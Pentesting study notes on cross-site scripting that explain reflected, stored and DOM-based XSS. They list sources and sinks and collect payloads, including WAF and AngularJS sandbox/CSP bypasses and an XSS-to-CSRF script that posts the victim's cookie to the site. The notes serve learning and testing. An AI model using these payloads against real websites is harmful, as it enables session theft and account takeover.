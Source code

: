 # Cross-Site Scripting

Cross-Site Scripting is all about getting malicious javascript to execute. This allows an attacker to do basically anything on the client-side of the targeted user. A basic test to check if XSS is working, is by invoking the `alert(1)` function. Or use `alert(document.domain)` to show what domain the javascript is executing on. 

An attacker is then ablo to
- Impersonate or masquerade as the victim user
- Carry out any action that the user is able to perform
- Read any data that the user is able to access
- Capture the user's login credentials
- Perform virtual defacement of the web site
- Inject trojan functionality into the web site

## Reflected XSS
User input is immediatly reflected in the response in an unsafe way that allows for malicious javascript to execute. For example in a search feature it says "Results for '\<script>alert(1)\</script>'".

1. Test every entry point, input parameters, URL file path, http headers, etc
2. Submit random alphanumeric values, and check if they are reflected
3. Determine the reflection context, inbetween tags, in javascript string, etc
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## Stored XSS
Inputted data is later used by the application in an unsafe way that allows for malicious javascript to execute. For example in a comment feature "Comment: \<script>alert(1)\</script>".

1. Try to find connections between entry points (input parameters, URL file path, http headers, etc) and exit points (all http responses that are returned to a user in any situation)
2. Do this by submitting specific values into all entry points, and monitoring if any response contains any of those values
3. Determine the context, inbetween tags, in javascript string, etc
4. Test different payloads, [cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
5. Test the attack in browser

## DOM-based XSS
Client-side javascript processes data in an unsafe way, usually by writing the data back to the [DOM](https://en.wikipedia.org/wiki/Document_Object_Model). For example, javascript reads a value from an input field and writes it back to an HTML element.

You need a source, e.g.:
```js
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location.search
location.hash
document.cookie
document.referrer
```

And a sink in the javascript code, e.g.: 
```js
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
eval()
```

Or a sink in third-party libraries/frameworks, e.g. [jQuery](https://jquery.com/) (sink: `$(xss)`), [AngularJS](https://angularjs.org/) (sink: `{{xss}}`), etc

To find what sources and sinks work, input random strings, and use developer tools to inspect the HTML, or use a javascript debugger. This task can be quite tedious.




## Proof of Concepts

Take a look at this amazing [Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) from portswigger.

### In Attribute String
```html
"><script>alert(1)</script>
```
```html
" autofocus onfocus=alert(1) x="
```
```html
<a href="javascript:alert(1)">
```

### In Javascript String
```html
</script><img src=1 onerror=alert(1)>
```
```js
'-alert(1)-'
```
```js
';alert(1)//
```
```js
\';alert(1)//
```
```html
&apos;-alert(1)-&apos;
```

### Blocked characters | WAF
```html
onerror=alert;throw 1
```
```html
<script>{onerror=eval}throw'=alert\x281\x29'</script>
```
```html
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```

### Template Literal
```js
${alert(1)}
```

### AngularJS | Sandboxed | CSP
```js
'a'.constructor.prototype.charAt=[].join
$eval('x=alert(1)')
```
```js
// fromCharCode() translates to: x=alert(1)
toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```html
<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">
<!-- Or use array.map() to hide from the CSP: "[1].map(alert)" -->
```

### XSS->CSRF
```html
<script>
window.addEventListener('DOMContentLoaded', function(){

var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 3);
data.append('comment', document.cookie);
data.append('name', 'victim');
data.append('email', 'foo@bar.com');
data.append('website', 'http://foo.bar');

fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
});
});
</script>
```